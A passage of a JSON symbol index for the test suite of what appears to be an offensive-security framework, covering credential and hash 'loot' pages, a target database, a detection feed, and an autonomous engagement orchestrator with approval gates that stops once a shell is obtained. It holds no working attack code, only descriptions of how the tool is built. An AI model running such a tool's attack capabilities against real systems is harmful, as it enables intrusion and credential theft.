"Track plan calls.", "kind": "method", "line": 169, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Emit the same command with a changing fingerprint.", "kind": "method", "line": 173, "name": "plan", "signature": "def plan(self, target, max_candidates)"}]}, {"doc": "Integration tests for dashboard_bp loot and timeline routes.", "id": "tests/test_dashboard_routes.py", "kind": "module", "label": "test_dashboard_routes.py", "language": "py", "sha256": "4d3706f961d6baf7", "symbol_count": 29, "symbols": [{"kind": "class", "line": 16, "name": "_TestUser", "signature": "class _TestUser(UserMixin)"}, {"doc": "Create a Flask test client with dashboard_bp registered, a LoginManager\nconfigured, and an authenticated operator session active.", "kind": "function", "line": 22, "name": "client", "signature": "def client(tmp_path)"}, {"kind": "function", "line": 45, "name": "_write_credentials_file", "signature": "def _write_credentials_file(sessions_dir, filename, lines)"}, {"kind": "function", "line": 49, "name": "_write_hashes_file", "signature": "def _write_hashes_file(sessions_dir, filename, lines)"}, {"kind": "function", "line": 53, "name": "_write_loot_file", "signature": "def _write_loot_file(sessions_dir, rel_path, content)"}, {"kind": "function", "line": 60, "name": "_write_csv_report", "signature": "def _write_csv_report(sessions_dir, rows)"}, {"kind": "function", "line": 69, "name": "_write_events_jsonl", "signature": "def _write_events_jsonl(sessions_dir, events)"}, {"doc": "Tests for GET /dashboard/loot.", "kind": "class", "line": 75, "name": "TestLootRoute", "signature": "class TestLootRoute"}, {"doc": "Tests for GET /dashboard/timeline.", "kind": "class", "line": 180, "name": "TestTimelineRoute", "signature": "class TestTimelineRoute"}, {"doc": "Sanity tests for the main dashboard index route.", "kind": "class", "line": 391, "name": "TestDashboardIndexRoute", "signature": "class TestDashboardIndexRoute"}, {"kind": "method", "line": 17, "name": "__init__", "signature": "def __init__(self, user_id)"}, {"kind": "function", "line": 34, "name": "load_user", "signature": "def load_user(user_id)"}, {"doc": "Loot page returns 200 when credentials, hashes, and loot files exist.", "kind": "method", "line": 78, "name": "test_loot_route_returns_200_with_data", "signature": "def test_loot_route_returns_200_with_data(self, client)"}, {"doc": "Loot page returns 200 with empty state when no loot files exist.", "kind": "method", "line": 107, "name": "test_loot_empty_returns_200", "signature": "def test_loot_empty_returns_200(self, client)"}, {"doc": "Loot page skips lines starting with # in credential and hash files.", "kind": "method", "line": 117, "name": "test_loot_skips_comment_lines", "signature": "def test_loot_skips_comment_lines(self, client)"}, {"doc": "Loot page caps entries at _LOOT_MAX_ENTRIES (500).", "kind": "method", "line": 148, "name": "test_loot_respects_max_entries", "signature": "def test_loot_respects_max_entries(self, client)"}, {"doc": "Loot page aggregates all credential*.txt glob matches.", "kind": "method", "line": 165, "name": "test_loot_multiple_credential_files", "signature": "def test_loot_multiple_credential_files(self, client)"}, {"doc": "Timeline page returns 200 when CSV report and events exist.", "kind": "method", "line": 183, "name": "test_timeline_route_returns_200_with_data", "signature": "def test_timeline_route_returns_200_with_data(self, client)"}, {"doc": "Timeline page returns 200 with empty state when no data files exist.", "kind": "method", "line": 230, "name": "test_timeline_empty_returns_200", "signature": "def test_timeline_empty_returns_200(self, client)"}, {"doc": "Timeline entries are sorted by timestamp descending (newest first).", "kind": "method", "line": 238, "name": "test_timeline_sorted_newest_first", "signature": "def test_timeline_sorted_newest_first(self, client)"}, {"doc": "Timeline CSV reader uses the 'tool' column as fallback for 'command'.", "kind": "method", "line": 266, "name": "test_timeline_handles_csv_tool_column", "signature": "def test_timeline_handles_csv_tool_column(self, client)"}, {"doc": "Timeline skips CSV rows that have no command/tool value.", "kind": "method", "line": 278, "name": "test_timeline_csv_without_timestamp", "signature": "def test_timeline_csv_without_timestamp(self, client)"}, {"doc": "Timeline caps at _TIMELINE_MAX_ROWS (200).", "kind": "method", "line": 296, "name": "test_timeline_respects_max_rows", "signature": "def test_timeline_respects_max_rows(self, client)"}, {"doc": "Timeline normalizes ISO-format timestamps from events.", "kind": "method", "line": 318, "name": "test_timeline_normalizes_iso_timestamps", "signature": "def test_timeline_normalizes_iso_timestamps(self, client)"}, {"doc": "Timeline works when only events.jsonl exists (no CSV report).", "kind": "method", "line": 339, "name": "test_timeline_only_events_no_csv", "signature": "def test_timeline_only_events_no_csv(self, client)"}, {"doc": "Timeline works when only CSV report exists (no events.jsonl).", "kind": "method", "line": 360, "name": "test_timeline_only_csv_no_events", "signature": "def test_timeline_only_csv_no_events(self, client)"}, {"doc": "Timeline gracefully skips malformed JSONL lines.", "kind": "method", "line": 375, "name": "test_timeline_handles_malformed_jsonl", "signature": "def test_timeline_handles_malformed_jsonl(self, client)"}, {"doc": "Main dashboard page returns 200.", "kind": "method", "line": 394, "name": "test_dashboard_index_returns_200", "signature": "def test_dashboard_index_returns_200(self, client)"}, {"doc": "API data endpoint returns valid JSON with expected keys.", "kind": "method", "line": 401, "name": "test_dashboard_api_data_returns_json", "signature": "def test_dashboard_api_data_returns_json(self, client)"}]}, {"doc": "Tests for cli/dashboard_tui.py.  Exercises the data-loading helpers and widget update logic with synthetic fixtures so the suite runs without a real LazyOwn session on disk. The Textual App itself is not instantiated in these tests — rendering is a thin wrapper around the helpers tested here.", "id": "tests/test_dashboard_tui.py", "kind": "module", "label": "test_dashboard_tui.py", "language": "py", "sha256": "8a36d3d4b749b9d5", "symbol_count": 23, "symbols": [{"kind": "class", "line": 29, "name": "TestReadJson", "signature": "class TestReadJson"}, {"kind": "class", "line": 44, "name": "TestCountLinesInGlob", "signature": "class TestCountLinesInGlob"}, {"kind": "class", "line": 65, "name": "TestReadRecentCommands", "signature": "class TestReadRecentCommands"}, {"kind": "class", "line": 117, "name": "TestKillChainPhases", "signature": "class TestKillChainPhases"}, {"kind": "class", "line": 131, "name": "TestGraphHints", "signature": "class TestGraphHints"}, {"kind": "method", "line": 30, "name": "test_reads_valid_file", "signature": "def test_reads_valid_file(self, tmp_path)"}, {"kind": "method", "line": 35, "name": "test_missing_file_returns_empty_dict", "signature": "def test_missing_file_returns_empty_dict(self, tmp_path)"}, {"kind": "method", "line": 38, "name": "test_invalid_json_returns_empty_dict", "signature": "def test_invalid_json_returns_empty_dict(self, tmp_path)"}, {"kind": "method", "line": 45, "name": "test_counts_non_empty_lines", "signature": "def test_counts_non_empty_lines(self, tmp_path)"}, {"kind": "method", "line": 51, "name": "test_empty_file_returns_zero", "signature": "def test_empty_file_returns_zero(self, tmp_path)"}, {"kind": "method", "line": 56, "name": "test_no_matching_files_returns_zero", "signature": "def test_no_matching_files_returns_zero(self, tmp_path)"}, {"kind": "method", "line": 59, "name": "test_multiple_files_summed", "signature": "def test_multiple_files_summed(self, tmp_path)"}, {"kind": "method", "line": 66, "name": "_make_transcript", "signature": "def _make_transcript(self, tmp_path, rows)"}, {"kind": "method", "line": 77, "name": "test_reads_recent_commands", "signature": "def test_reads_recent_commands(self, tmp_path)"}, {"kind": "method", "line": 89, "name": "test_missing_file_returns_empty", "signature": "def test_missing_file_returns_empty(self, tmp_path)"}, {"kind": "method", "line": 93, "name": "test_empty_file_returns_empty", "signature": "def test_empty_file_returns_empty(self, tmp_path)"}, {"kind": "method", "line": 98, "name": "test_respects_window_limit", "signature": "def test_respects_window_limit(self, tmp_path)"}, {"kind": "method", "line": 105, "name": "test_skips_empty_tool_rows", "signature": "def test_skips_empty_tool_rows(self, tmp_path)"}, {"kind": "method", "line": 118, "name": "test_all_phases_present", "signature": "def test_all_phases_present(self)"}, {"kind": "method", "line": 125, "name": "test_phases_ordered", "signature": "def test_phases_ordered(self)"}, {"kind": "method", "line": 132, "name": "test_returns_list_when_advisor_unavailable", "signature": "def test_returns_list_when_advisor_unavailable(self)"}, {"kind": "method", "line": 137, "name": "test_returns_list_on_exception", "signature": "def test_returns_list_on_exception(self)"}, {"kind": "method", "line": 142, "name": "test_returns_labels_from_advisor", "signature": "def test_returns_labels_from_advisor(self)"}]}, {"doc": "Tests for modules.db — LazyOwnDB SQLite layer.  Covers workspace lifecycle, host/service insertion, CSV export, and nmap XML import.", "id": "tests/test_db.py", "kind": "module", "label": "test_db.py", "language": "py", "sha256": "fc5ed0a4d7108d56", "symbol_count": 13, "symbols": [{"doc": "Return a LazyOwnDB backed by a temporary SQLite file.", "kind": "function", "line": 20, "name": "fresh_db", "signature": "def fresh_db()"}, {"kind": "class", "line": 28, "name": "TestLazyOwnDB", "signature": "class TestLazyOwnDB"}, {"doc": "Schema tables must exist immediately after construction.", "kind": "method", "line": 29, "name": "test_initial_schema", "signature": "def test_initial_schema(self, fresh_db)"}, {"doc": "Creating a workspace returns a positive ID and lists correctly.", "kind": "method", "line": 46, "name": "test_workspace_create_and_list", "signature": "def test_workspace_create_and_list(self, fresh_db)"}, {"doc": "Duplicate workspace names return -1 (not crash).", "kind": "method", "line": 54, "name": "test_duplicate_workspace_returns_negative_one", "signature": "def test_duplicate_workspace_returns_negative_one(self, fresh_db)"}, {"doc": "Insert, retrieve, delete hosts.", "kind": "method", "line": 60, "name": "test_host_crud", "signature": "def test_host_crud(self, fresh_db)"}, {"doc": "Adding the same address twice updates the existing row.", "kind": "method", "line": 73, "name": "test_host_upsert_updates_existing", "signature": "def test_host_upsert_updates_existing(self, fresh_db)"}, {"doc": "Services can be attached to a host and queried.", "kind": "method", "line": 82, "name": "test_service_crud", "signature": "def test_service_crud(self, fresh_db)"}, {"doc": "Credentials are stored per host and retrieved per workspace.", "kind": "method", "line": 94, "name": "test_credential_storage", "signature": "def test_credential_storage(self, fresh_db)"}, {"doc": "CSV export produces well-formed rows.", "kind": "method", "line": 105, "name": "test_csv_export", "signature": "def test_csv_export(self, fresh_db)"}, {"doc": "Importing a minimal nmap XML populates hosts and services.", "kind": "method", "line": 114, "name": "test_nmap_xml_import", "signature": "def test_nmap_xml_import(self, fresh_db, tmp_path)"}, {"doc": "Deleting a workspace removes its hosts.", "kind": "method", "line": 144, "name": "test_workspace_delete", "signature": "def test_workspace_delete(self, fresh_db)"}, {"doc": "Loot and notes are stored per workspace.", "kind": "method", "line": 151, "name": "test_loot_and_notes", "signature": "def test_loot_and_notes(self, fresh_db)"}]}, {"doc": "Tests for ``core.dependencies`` graceful optional-import handling.  These tests pin the behaviour the refactor relies on:  - An installed dependency resolves to the real module/attribute so runtime behaviour is byte-for-byte identical to a direct ``import``. - A missing dependency never raises at import time; it returns a proxy that fails only on use, with a remediation message. - ``utils.py`` still exposes every lazily-bound symbol so ``lazyown.py``'s ``from utils import *`` contract keeps working.", "id": "tests/test_dependencies.py", "kind": "module", "label": "test_dependencies.py", "language": "py", "sha256": "53809d0373ce73ec", "symbol_count": 35, "symbols": [{"doc": "Execute ``snippet`` in a clean subprocess and return trimmed stdout.\n\nMirrors ``tests/test_core.py`` so ``utils.py`` argv parsing does not fire\nwhen the module is imported for assertions.\n\nArgs:\n    snippet: Python source executed with ``-c``.\n\nReturns:\n    The trimmed standard output of the subprocess.", "kind": "function", "line": 59, "name": "_run_in_subprocess", "signature": "def _run_in_subprocess(snippet)"}, {"doc": "The remediation error carries enough context to fix the install.", "kind": "class", "line": 82, "name": "TestMissingDependencyError", "signature": "class TestMissingDependencyError"}, {"doc": "An installed module resolves to the real object.", "kind": "class", "line": 102, "name": "TestOptionalImportPresent", "signature": "class TestOptionalImportPresent"}, {"doc": "A missing module degrades to a deferred proxy.", "kind": "class", "line": 113, "name": "TestOptionalImportAbsent", "signature": "class TestOptionalImportAbsent"}, {"doc": "Attribute and submodule resolution mirror ``from x import y``.", "kind": "class", "line": 146, "name": "TestOptionalAttr", "signature": "class TestOptionalAttr"}, {"doc": "The dependency registry is the single source of truth and is complete.", "kind": "class", "line": 170, "name": "TestRegistry", "signature": "class TestRegistry"}, {"doc": "Probing reports availability and version without raising.", "kind": "class", "line": 204, "name": "TestProbe", "signature": "class TestProbe"}, {"doc": "The aggregate report classifies missing dependencies correctly.", "kind": "class", "line": 220, "name": "TestReport", "signature": "class TestReport"}, {"doc": "``utils.py`` keeps exporting every lazily-bound symbol.", "kind": "class", "line": 255, "name": "TestUtilsIntegration", "signature": "class TestUtilsIntegration"}, {"kind": "method", "line": 85, "name": "test_message_contains_pip_command", "signature": "def test_message_contains_pip_command(self)"}, {"kind": "method", "line": 92, "name": "test_attributes_are_exposed", "signature": "def test_attributes_are_exposed(self)"}, {"kind": "method", "line": 98, "name": "test_is_import_error_subclass", "signature": "def test_is_import_error_subclass(self)"}, {"kind": "method", "line": 105, "name": "test_returns_real_module", "signature": "def test_returns_real_module(self)"}, {"kind": "method", "line": 109, "name": "test_truthy_when_present", "signature": "def test_truthy_when_present(self)"}, {"kind": "method", "line": 116, "name": "test_returns_falsy_proxy", "signature": "def test_returns_falsy_proxy(self)"}, {"kind": "method", "line": 120, "name": "test_attribute_access_raises", "signature": "def test_attribute_access_raises(self)"}, {"kind": "method", "line": 125, "name": "test_call_raises", "signature": "def test_call_raises(self)"}, {"kind": "method", "line": 130, "name": "test_subscription_raises", "signature": "def test_subscription_raises(self)"}, {"kind": "method", "line": 135, "name": "test_iteration_raises", "signature": "def test_iteration_raises(self)"}, {"kind": "method", "line": 140, "name": "test_len_raises", "signature": "def test_len_raises(self)"}, {"kind": "method", "line": 149, "name": "test_returns_real_attribute", "signature": "def test_returns_real_attribute(self)"}, {"kind": "method", "line": 153, "name": "test_submodule_fallback", "signature": "def test_submodule_fallback(self)"}, {"kind": "method", "line": 157, "name": "test_missing_module_returns_proxy", "signature": "def test_missing_module_returns_proxy(self)"}, {"kind": "method", "line": 163, "name": "test_missing_attribute_returns_proxy", "signature": "def test_missing_attribute_returns_proxy(self)"}, {"kind": "method", "line": 173, "name": "test_every_spec_is_fully_populated", "signature": "def test_every_spec_is_fully_populated(self)"}, {"kind": "method", "line": 200, "name": "test_lazily_bound_dependency_is_registered", "signature": "def test_lazily_bound_dependency_is_registered(self, import_name)"}, {"kind": "method", "line": 207, "name": "test_present_dependency", "signature": "def test_present_dependency(self)"}, {"kind": "method", "line": 213, "name": "test_absent_dependency", "signature": "def test_absent_dependency(self)"}, {"kind": "method", "line": 223, "name": "test_collect_returns_report", "signature": "def test_collect_returns_report(self)"}, {"kind": "method", "line": 228, "name": "test_missing_and_ok_consistency", "signature": "def test_missing_and_ok_consistency(self)"}, {"kind": "method", "line": 235, "name": "test_ok_report_has_no_missing", "signature": "def test_ok_report_has_no_missing(self)"}, {"kind": "method", "line": 241, "name": "test_format_report_renders_markers", "signature": "def test_format_report_renders_markers(self)"}, {"kind": "method", "line": 250, "name": "test_main_returns_exit_code", "signature": "def test_main_returns_exit_code(self)"}, {"kind": "method", "line": 259, "name": "test_symbol_is_exported", "signature": "def test_symbol_is_exported(self, name)"}, {"kind": "method", "line": 265, "name": "test_is_binary_present_uses_path_lookup", "signature": "def test_is_binary_present_uses_path_lookup(self)"}]}, {"doc": "Tests for modules/detection_feed.py.", "id": "tests/test_detection_feed.py", "kind": "module", "label": "test_detection_feed.py", "language": "py", "sha256": "011005d2a7cd3a47", "symbol_count": 19, "symbols": [{"kind": "class", "line": 14, "name": "TestDetectionFeedInit", "signature": "class TestDetectionFeedInit"}, {"kind": "class", "line": 27, "name": "TestSigmaParsing", "signature": "class TestSigmaParsing"}, {"kind": "class", "line": 68, "name": "TestCaching", "signature": "class TestCaching"}, {"kind": "class", "line": 96, "name": "TestFeedbackAdjustment", "signature": "class TestFeedbackAdjustment"}, {"kind": "class", "line": 119, "name": "TestCategoryMap", "signature": "class TestCategoryMap"}, {"kind": "method", "line": 15, "name": "test_default_init", "signature": "def test_default_init(self, tmp_path)"}, {"kind": "method", "line": 20, "name": "test_custom_sources", "signature": "def test_custom_sources(self, tmp_path)"}, {"kind": "method", "line": 28, "name": "test_extract_log_source", "signature": "def test_extract_log_source(self, tmp_path)"}, {"kind": "method", "line": 33, "name": "test_extract_log_source_minimal", "signature": "def test_extract_log_source_minimal(self, tmp_path)"}, {"kind": "method", "line": 38, "name": "test_extract_mitre", "signature": "def test_extract_mitre(self, tmp_path)"}, {"kind": "method", "line": 43, "name": "test_extract_mitre_none", "signature": "def test_extract_mitre_none(self, tmp_path)"}, {"kind": "method", "line": 48, "name": "test_extract_keywords", "signature": "def test_extract_keywords(self, tmp_path)"}, {"kind": "method", "line": 61, "name": "test_extract_categories", "signature": "def test_extract_categories(self, tmp_path)"}, {"kind": "method", "line": 69, "name": "test_cache_and_load", "signature": "def test_cache_and_load(self, tmp_path)"}, {"kind": "method", "line": 90, "name": "test_load_cached_missing", "signature": "def test_load_cached_missing(self, tmp_path)"}, {"kind": "method", "line": 97, "name": "test_adjust_from_feedback_no_file", "signature": "def test_adjust_from_feedback_no_file(self, tmp_path)"}, {"kind": "method", "line": 102, "name": "test_adjust_from_feedback", "signature": "def test_adjust_from_feedback(self, tmp_path)"}, {"kind": "method", "line": 120, "name": "test_category_mappings", "signature": "def test_category_mappings(self)"}, {"kind": "method", "line": 127, "name": "test_default_probability", "signature": "def test_default_probability(self)"}]}, {"doc": "Docs drift workflow contract tests.  SDD contract: ``.github/workflows/docs-drift.yml`` must regenerate every auto-generated reference (command index, COMMANDS.md + HTML, UTILS.md) and fail on any drift. Auto-generated docs are treated as ground truth by AI operators, so a vacuous check (regenerating one artefact while diffing another) is a correctness bug, not a nit.", "id": "tests/test_docs_drift_contract.py", "kind": "module", "label": "test_docs_drift_contract.py", "language": "py", "sha256": "d81727d1a877b220", "symbol_count": 11, "symbols": [{"kind": "function", "line": 22, "name": "workflow_text", "signature": "def workflow_text()"}, {"kind": "function", "line": 27, "name": "workflow_steps", "signature": "def workflow_steps(workflow_text)"}, {"doc": "Match a generator invocation, not a mention inside an echo message.", "kind": "function", "line": 38, "name": "_runs_command", "signature": "def _runs_command(step, command)"}, {"kind": "function", "line": 43, "name": "test_workflow_exists", "signature": "def test_workflow_exists()"}, {"kind": "function", "line": 47, "name": "test_regenerates_command_index", "signature": "def test_regenerates_command_index(workflow_steps)"}, {"kind": "function", "line": 53, "name": "test_regenerates_commands_reference", "signature": "def test_regenerates_commands_reference(workflow_steps)"}, {"kind": "function", "line": 59, "name": "test_regenerates_utils_reference", "signature": "def test_regenerates_utils_reference(workflow_steps)"}, {"kind": "function", "line": 65, "name": "test_diffs_command_index", "signature": "def test_diffs_command_index(workflow_steps)"}, {"kind": "function", "line": 71, "name": "test_diffs_commands_reference", "signature": "def test_diffs_commands_reference(workflow_steps)"}, {"kind": "function", "line": 77, "name": "test_diffs_utils_reference", "signature": "def test_diffs_utils_reference(workflow_steps)"}, {"kind": "function", "line": 81, "name": "test_trigger_watches_generator_inputs", "signature": "def test_trigger_watches_generator_inputs(workflow_text)"}]}, {"doc": "tests/test_doctor.py  Tests for the preflight environment health check in ``cli.doctor``.  The doctor command is the operator's first line of defence against a broken install, so the contract under test is:  - Every check function is pure and side-effect free: dependency probing is injected, never executed against the real environment. - Required dependencies map to ``fail``; optional ones map to ``warn``; present ones map to ``ok``. - File-presence checks (payload.json, certificates) resolve against an injected repository root so the suite never depends on the real working tree. - :class:`DoctorReport` aggregates the worst status correctly and exposes a ``healthy`` flag that ignores warnings but trips on failures. - SecLists and external-tool detection are delegated to ``cli.wizard`` so the framework keeps a single source of truth.", "id": "tests/test_doctor.py", "kind": "module", "label": "test_doctor.py", "language": "py", "sha256": "27464e886509f899", "symbol_count": 34, "symbols": [{"kind": "class", "line": 32, "name": "TestPythonVersion", "signature": "class TestPythonVersion"}, {"kind": "class", "line": 51, "name": "TestVirtualEnv", "signature": "class TestVirtualEnv"}, {"kind": "class", "line": 72, "name": "TestPackages", "signature": "class TestPackages"}, {"kind": "class", "line": 107, "name": "TestFileChecks", "signature": "class TestFileChecks"}, {"kind": "class", "line": 129, "name": "TestSecListsAndTools", "signature": "class TestSecListsAndTools"}, {"kind": "class", "line": 155, "name": "TestReportAggregation", "signature": "class TestReportAggregation"}, {"kind": "class", "line": 184, "name": "TestGatherAndRun", "signature": "class TestGatherAndRun"}, {"kind": "method", "line": 33, "name": "test_supported_version_is_ok", "signature": "def test_supported_version_is_ok(self)"}, {"kind": "method", "line": 37, "name": "test_exact_minimum_is_ok", "signature": "def test_exact_minimum_is_ok(self)"}, {"kind": "method", "line": 41, "name": "test_old_version_fails", "signature": "def test_old_version_fails(self)"}, {"kind": "method", "line": 46, "name": "test_uses_live_interpreter_by_default", "signature": "def test_uses_live_interpreter_by_default(self)"}, {"kind": "method", "line": 52, "name": "test_active_venv_is_ok", "signature": "def test_active_venv_is_ok(self, tmp_path)"}, {"kind": "method", "line": 56, "name": "test_inactive_with_env_dir_warns_to_activate", "signature": "def test_inactive_with_env_dir_warns_to_activate(self, tmp_path)"}, {"kind": "method", "line": 62, "name": "test_no_venv_anywhere_warns_to_install", "signature": "def test_no_venv_anywhere_warns_to_install(self, tmp_path)"}, {"kind": "method", "line": 67, "name": "test_none_base_prefix_collapses_to_prefix", "signature": "def test_none_base_prefix_collapses_to_prefix(self, tmp_path)"}, {"kind": "method", "line": 73, "name": "test_present_required_package_is_ok", "signature": "def test_present_required_package_is_ok(self)"}, {"kind": "method", "line": 78, "name": "test_missing_required_package_fails", "signature": "def test_missing_required_package_fails(self)"}, {"kind": "method", "line": 84, "name": "test_missing_optional_package_warns", "signature": "def test_missing_optional_package_warns(self)"}, {"kind": "method", "line": 89, "name": "test_finder_exception_treated_as_missing", "signature": "def test_finder_exception_treated_as_missing(self)"}, {"kind": "method", "line": 97, "name": "test_default_registry_has_core_packages", "signature": "def test_default_registry_has_core_packages(self)"}, {"kind": "method", "line": 101, "name": "test_import_name_differs_from_pip_name_where_expected", "signature": "def test_import_name_differs_from_pip_name_where_expected(self)"}, {"kind": "method", "line": 108, "name": "test_payload_present_is_ok", "signature": "def test_payload_present_is_ok(self, tmp_path)"}, {"kind": "method", "line": 112, "name": "test_payload_missing_fails", "signature": "def test_payload_missing_fails(self, tmp_path)"}, {"kind": "method", "line": 117, "name": "test_certificates_present_is_ok", "signature": "def test_certificates_present_is_ok(self, tmp_path)"}, {"kind": "method", "line": 122, "name": "test_certificates_partial_warns", "signature": "def test_certificates_partial_warns(self, tmp_path)"}, {"kind": "method", "line": 130, "name": "test_seclists_found_is_ok", "signature": "def test_seclists_found_is_ok(self)"}, {"kind": "method", "line": 135, "name": "test_seclists_missing_warns", "signature": "def test_seclists_missing_warns(self)"}, {"kind": "method", "line": 139, "name": "test_external_tools_present_and_missing", "signature": "def test_external_tools_present_and_missing(self)"}, {"kind": "method", "line": 156, "name": "test_overall_status_ok_when_all_ok", "signature": "def test_overall_status_ok_when_all_ok(self)"}, {"kind": "method", "line": 161, "name": "test_overall_status_warn_with_warnings_only", "signature": "def test_overall_status_warn_with_warnings_only(self)"}, {"kind": "method", "line": 171, "name": "test_overall_status_fail_trips_healthy", "signature": "def test_overall_status_fail_trips_healthy(self)"}, {"kind": "method", "line": 185, "name": "test_gather_report_populates_all_sections", "signature": "def test_gather_report_populates_all_sections(self, tmp_path)"}, {"kind": "method", "line": 194, "name": "test_run_returns_report_without_raising", "signature": "def test_run_returns_report_without_raising(self, tmp_path)"}, {"kind": "function", "line": 90, "name": "boom", "signature": "def boom(name)"}]}, {"doc": "Encoding command set extraction tests.  SDD contract for the encoding cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/encoding.py``.  Stage B (active): the originals are deleted from ``misc_migrated.py`` and ``EncodingCommandSet`` subclasses ``LazyOwnCommandSet`` so ``cli.registry`` registers it on the shell. Tests assert active registration eligibility, command coverage, and absence of the methods in the source module.", "id": "tests/test_encoding_command_set.py", "kind": "module", "label": "test_encoding_command_set.py", "language": "py", "sha256": "62f634a545ea83c2", "symbol_count": 9, "symbols": [{"kind": "function", "line": 28, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"doc": "Centralised constants for the encoding extraction suite.", "kind": "class", "line": 34, "name": "EncodingSuiteConfig", "signature": "class EncodingSuiteConfig"}, {"kind": "function", "line": 59, "name": "_methods_of", "signature": "def _methods_of(path, class_name)"}, {"kind": "function", "line": 71, "name": "test_target_is_active_command_set", "signature": "def test_target_is_active_command_set()"}, {"kind": "function", "line": 80, "name": "test_target_exposes_full_encoding_cluster", "signature": "def test_target_exposes_full_encoding_cluster()"}, {"kind": "function", "line": 87, "name": "test_target_phase_metadata", "signature": "def test_target_phase_metadata()"}, {"kind": "function", "line": 93, "name": "test_source_no_longer_defines_cluster", "signature": "def test_source_no_longer_defines_cluster()"}, {"kind": "function", "line": 99, "name": "test_registry_registers_target", "signature": "def test_registry_registers_target()"}, {"kind": "function", "line": 106, "name": "test_no_command_collisions_with_source", "signature": "def test_no_command_collisions_with_source()"}]}, {"doc": "BDD tests for gates and transcripts in the live engage path.  Given an EngageOrchestrator with scripted runners, when a command is denied, duplicated, or already covered by a scan file, then the step is skipped visibly; every executed step lands in the transcript and evidence stores under sessions/.", "id": "tests/test_engage_gates.py", "kind": "module", "label": "test_engage_gates.py", "language": "py", "sha256": "db55882676b2310f", "symbol_count": 28, "symbols": [{"doc": "ICommandRunner double matching substrings to canned outputs.", "kind": "class", "line": 23, "name": "_ScriptedRunner", "signature": "class _ScriptedRunner"}, {"doc": "Narrator double recording event kinds.", "kind": "class", "line": 44, "name": "_RecorderNarrator", "signature": "class _RecorderNarrator"}, {"doc": "Return a gate double that approves everything.", "kind": "function", "line": 56, "name": "_approved_gate", "signature": "def _approved_gate()"}, {"doc": "Redirect sessions writes of both engagements and daemon.", "kind": "function", "line": 63, "name": "temp_sessions", "signature": "def temp_sessions(tmp_path, monkeypatch)"}, {"doc": "Build an engage orchestrator with doubles.", "kind": "function", "line": 74, "name": "_orch", "signature": "def _orch(target, scripted, plan, guard)"}, {"doc": "BDD: a denied step is skipped and its command never runs.", "kind": "function", "line": 89, "name": "test_denied_command_never_executes", "signature": "def test_denied_command_never_executes(temp_sessions)"}, {"doc": "BDD: repeating a successful command adds no new direction.", "kind": "function", "line": 109, "name": "test_duplicate_success_is_skipped", "signature": "def test_duplicate_success_is_skipped(temp_sessions)"}, {"doc": "BDD: lazynmap never re-runs against a held scan file.", "kind": "function", "line": 123, "name": "test_scan_step_skipped_when_scan_held", "signature": "def test_scan_step_skipped_when_scan_held(temp_sessions)"}, {"doc": "BDD: every executed step is recorded with its evidence blob.", "kind": "function", "line": 138, "name": "test_executed_steps_leave_transcript_and_evidence", "signature": "def test_executed_steps_leave_transcript_and_evidence(temp_sessions)"}, {"doc": "BDD: high-value notifications render redacted and journal.", "kind": "function", "line": 153, "name": "test_notify_journal_written_for_findings", "signature": "def test_notify_journal_written_for_findings(temp_sessions)"}, {"doc": "BDD: an unchanged world ends the wake with zero extra intents.", "kind": "function", "line": 164, "name": "test_no_new_direction_when_world_unchanged", "signature": "def test_no_new_direction_when_world_unchanged(temp_sessions, monkeypatch)"}, {"doc": "BDD: a changed world wakes planner intents mapped to own verbs.", "kind": "function", "line": 175, "name": "test_planner_intent_executes_mapped_verb", "signature": "def test_planner_intent_executes_mapped_verb(temp_sessions, monkeypatch)"}, {"doc": "BDD: empty refill on a changed world still emits one command.", "kind": "function", "line": 196, "name": "test_planner_fallback_pushes_forward", "signature": "def test_planner_fallback_pushes_forward(temp_sessions, monkeypatch)"}, {"doc": "BDD: spinner hint shows the newest reasoning line.", "kind": "function", "line": 225, "name": "test_latest_hint_renders_newest_event", "signature": "def test_latest_hint_renders_newest_event(tmp_path)"}, {"doc": "BDD: the done message separates ran from skipped steps.", "kind": "function", "line": 241, "name": "test_engage_summary_counts_ran_and_skipped", "signature": "def test_engage_summary_counts_ran_and_skipped(temp_sessions, monkeypatch)"}, {"doc": "Hold the command to output map.", "kind": "method", "line": 26, "name": "__init__", "signature": "def __init__(self, scripted)"}, {"doc": "Record the call and return the first matching output.", "kind": "method", "line": 31, "name": "run", "signature": "def run(self, command, timeout)"}, {"doc": "Identify the double.", "kind": "method", "line": 39, "name": "name", "signature": "def name(self)"}, {"doc": "Initialize the event log.", "kind": "method", "line": 47, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Record one event kind.", "kind": "method", "line": 51, "name": "narrate", "signature": "def narrate(self, kind)"}, {"kind": "class", "line": 182, "name": "_Dispatcher", "signature": "class _Dispatcher"}, {"kind": "class", "line": 203, "name": "_EmptyPlanner", "signature": "class _EmptyPlanner"}, {"kind": "class", "line": 209, "name": "_Dispatcher", "signature": "class _Dispatcher"}, {"kind": "class", "line": 248, "name": "_Narrator", "signature": "class _Narrator(_RecorderNarrator)"}, {"kind": "method", "line": 183, "name": "suggest", "signature": "def suggest(self)"}, {"doc": "Report no candidates.", "kind": "method", "line": 204, "name": "plan", "signature": "def plan(self, target, max_candidates)"}, {"kind": "method", "line": 210, "name": "suggest", "signature": "def suggest(self)"}, {"doc": "Record kinds and messages.", "kind": "method", "line": 249, "name": "narrate", "signature": "def narrate(self, kind, message)"}]}, {"doc": "tests/test_engage_orchestrator.py  Coverage for the engage feature added in modules/engagement_hooks.py, skills/lazyown_policy.py (ApprovalGate), skills/autonomous_daemon.py (EngageOrchestrator + narrator + shell detector), and the lazyc2.py / lazyown.py wiring around them.  Test scope: - EngagementNarrator persists to engagement.log and engagement_audit.jsonl - NotificationBroadcaster fans out to every sink - publish_shell_obtained is idempotent per client_id - ApprovalGate honours auto_approve, gates only gated phases, polls the injected sink, and respects the timeout - FileApprovalSink stores pending then resolved records - StdinApprovalSink returns None when stdin is not a TTY - EngageOrchestrator: validates target, runs the plan, switches tools on failure, narrates SWITCH_TOOL events, stops on shell-obtained indicator - StaticFallbackResolver returns alternatives in order, then exhausts - mcp_engage_target rejects bogus targets and returns an engagement_id - mcp_engage_status returns log lines + pending approvals - lazyown.py exposes do_engage; lazyc2.py installs the SHELL_OBTAINED hook", "id": "tests/test_engage_orchestrator.py", "kind": "module", "label": "test_engage_orchestrator.py", "language": "py", "sha256": "1cbe5234678cf5ae", "symbol_count": 77, "symbols": [{"doc": "Redirect engagement_hooks to a writable 